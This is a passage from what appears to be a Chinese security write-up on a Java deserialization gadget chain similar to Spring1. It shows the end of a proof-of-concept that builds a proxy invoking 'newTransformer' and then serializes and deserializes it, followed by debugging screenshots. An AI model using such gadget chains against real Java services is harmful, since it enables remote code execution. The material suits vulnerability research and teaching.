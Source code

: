 ```bash
        Object object=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(object,"methodName","newTransformer");
        unserialize(serialize(object));

    }
}
```

简单调试如下，与`spring1`大同小异：

[![](assets/1706145875-f6acdc908db60f2d3ecbb578dcd130cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223127-ed0d944e-b932-1.png)

[![](assets/1706145875-1697ed36efa6a9e9cd12f40c78f7458c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122223135-f21af08a-b932-1.png)
